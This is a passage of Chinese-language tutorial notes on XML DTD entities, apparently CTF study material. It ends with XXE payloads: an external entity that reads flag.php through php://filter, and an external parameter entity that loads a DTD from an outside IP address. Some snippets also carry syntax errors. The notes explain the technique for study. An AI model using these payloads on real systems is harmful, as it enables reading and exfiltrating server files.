     - 引入外部`dtd`文件（网络）
        
        ```c
        <!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文档的URL">
        ```
        

### DTD 实体

*按实体有无参分类，实体分为一般实体和参数实体*

1. 内部实体
    
    ```c
    <!DOCTYPE note [
        <!ENTITY a "admin">
    ]>
    <note>&a</note>
    <!-- admin -->
    ```
    
2. 参数实体
    
    ```c
    <!DOCTYPE note> [
        <!ENTITY % b "<!ENTITY b1 "awsl">">
        %b;
    ]>
    <note>&b1</note>
    <!-- awsl -->
    ```
    
    参数实体用**`% name`**申明，引用时用**`%name;`**，只能在DTD中申明，DTD中引用。
    
    其余实体直接用**`name`**申明，引用时用**`&name;`**，只能在DTD中申明，可在xml文档中引用
    
3. 外部实体（使用了PHP伪协议）
    
    ```c
    <!DOCTYPE note> [
        <!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">
    ]>
    <note>&c</note>
    <!-- Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA== -->
    ```
    
4. 外部参数实体
    
    ```c
    <!DOCTYPE note> [
        <!ENTITY % d SYSTEM "http://47.106.143.26/xml.dtd">
        %d;
    ]>
    <note>&d1</note>
    <!-- Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA== -->
    ```
    